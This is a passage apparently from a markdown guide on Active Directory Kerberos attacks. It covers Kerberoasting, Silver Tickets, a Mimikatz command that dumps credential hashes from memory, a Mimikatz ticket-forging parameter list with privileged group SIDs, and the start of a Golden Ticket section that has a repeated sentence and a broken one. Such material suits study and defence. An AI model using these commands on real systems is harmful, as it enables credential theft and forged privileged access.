 Cracking Service Account passwords with Kerberoast is one potential method for identifying a target service’s associated password data. 

Computers also host services with the most common one being the Windows file share that leverages the “cifs” service. Since the computer itself hosts this service, the password data required to create a Silver Ticket is the associated with the computer account’s password hash. When a computer is joined to AD, a new computer account object is created and linked to the computer. The password and associated hash are stored on the computer that owns the account, and the NTLM password hash is stored in the AD database on the Domain Controllers for the domain. 

If an attacker can gain admin rights to the computer (to gain debug access) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz (the NTLM password hash is used to encrypt RC4 Kerberos tickets) as follows: 
```shell
Mimikatz “privilege::debug” “sekurlsa::logonpasswords” exit
```
#### Mimikatz Silver Ticket : Commands
```shell
/domain            : The fully qualified domain name
/sid               : The SID of the domain
/user              : Username to impersonate
/groups            : Group RIDs the user is a member of (the first is the primary group) default: 513, 512, 520, 518, 519 for well-known Administrator’s groups
/ticket            : Provide a path and name for saving the Golden Ticket file for later use. Otherwise, use /ptt to immediately inject the Golden Ticket into memory for use.
/ptt               : As an alternate to /ticket, use /ptt to immediately inject the forged ticket into memory for use.
/id                : User RID. Mimikatz default is 500 (the default Administrator account RID)
/startoffset       : The start offset when the ticket is available (generally set to –10 or 0 if this option is used). Mimikatz Default value is 0.
/endin             : Ticket lifetime. Mimikatz Default value is 10 years.
/renewmax          : Maximum ticket lifetime with renewal

/target            : The target server’s FQDN
/service           : The Kerberos service running on the target server. This is the SPN class (or type) such as cifs, http, or mssql.
/rc4               : The NTLM hash for the service (computer account or user account) Description 
```

#### Silver Ticket Default Groups 
- Domain Users SID: S-1-5-21<DOMAINID>-513
- Domain Admins SID: S-1-5-21<DOMAINID>-512
- Schema Admins SID: S-1-5-21<DOMAINID>-518
- Enterprise Admins SID: S-1-5-21<DOMAINID>-519
- Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520 

## Golden Ticket  
Golden Tickets are forged Ticket Granting Tickets (TGTs), also called authentication tickets.

![Golden Tickets](https://github.com/user-attachments/assets/a44082c9-4034-4c74-aa75-1b37ef849c8a)

Golden Tickets are forged Ticket Granting Tickets (TGTs), also called authentication tickets. The communication with the Domain Controller. Since a Golden Ticket is a forged TGT, it is sent to the domain controller as part of the TGS-REQ to get a service ticket.
